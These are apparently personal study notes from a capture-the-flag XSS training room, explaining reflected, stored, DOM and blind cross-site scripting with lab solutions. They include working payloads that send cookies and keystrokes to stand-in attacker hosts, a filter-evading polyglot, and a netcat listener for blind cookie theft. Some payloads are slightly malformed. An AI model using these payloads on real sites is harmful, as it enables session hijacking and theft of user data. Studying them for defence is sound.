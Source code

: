 
# Cross Site Scripting 


Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users

different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.


### PAYLOAD

payload is the JavaScript code we wish to be executed on the targets computer

parts:
- intention
- modification


**proof of concept** -- simple payload that gets a JS pop up
`<script> alert('XSS')</script>`



**session stealing**

user's session, login tokens kept in targets machine

get target's cookie, base64 encode it, post it to website hacker controls
hacker now has cookies and is logged in as user
`<script> fetch('https:/hacker.thm/steal?cookie=' + btoa(document.cookie)) </script>`


**key logger**

anything typed on webpage will be forwarded to a website under hacker's control

```
<script>
document.keypress = function(e) {
  fetch('https:/hacker.thm/log?key=' + btoa(e.key ))
}
</script>
```




**business logic**

specifc example, calling a particular network resource or javascript function

javascript function that changes user email
- `user.changeEmail()`

```
<script> user.changeEmail('attacker@hacker.thm') </script>

```






### REFLECTED XSS 

it is when user supplied data in HTTP request is 
_included_ in the webpage without validation

- `website.thm/?error=invalid input detected`

```
<div class="alert alert-danger">
    <p>invalid input detected </p>
</div>
```



app does not check contents of error parameter 
- `websute.thm/?error=<script="https:/attacker.thm/evil.js"></script>`

```
<div class="alert alert-danger">
    <p><script="https:/attacker.thm/evil.js"></script> </p>
</div>
```



The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.


test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)




### STORED XSS

XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

blog website that allows users to post comments. 
comments can have javascript code


malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

test
- Comments on a blog
- User profile information
- Website Listings


changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 




### DOM

document object model 

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.



### BLIND XSS

payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first


A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code,  These messages then get turned into support tickets which staff view on a private web portal.


Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.


 you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.




How your JavaScript payload gets reflected in a target website's code will determine the payload you need to use.




for each level

```
1. <script>alert('THM');</script> 
2. "><script>alert("THM")</script>   user input gets print out with "hello <name>"
3. </textarea><script>alert('THM')</script> user input gets printed into text area
4. ';alert('THM')//  user input name gets stored in JS class name
5. similar to 4, but `script` is checked and removed, so you need to misspell the tag
   
   <sscriptcript>alert('THM')</sscriptcript>
   `script` is removed
   <script>alert('THM')</script>


6.  user input for image path: `/images/cat.jpg`  onload=a"alert('THM')
```




### Polyglots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.


```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )
//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/
--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```




### BLIND XSS

1. support tickets tab > create ticket, word test (title & subject)
2. suppot tickets tab > create tab > inside text area: `</textarea>test`
3. suppot tickets tab > create tab > see if JS can run: `</textarea><script>alert('THM')<script>`

a staff member will likely see the ticket so JS executable code
get user data from cookies --> extract cookies
privilege esculation 

need a sever to listen and get the info
netcat  `nc -nlvp 9001`

4. suppot tickets tab > create tab > inside text area: `</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script> `











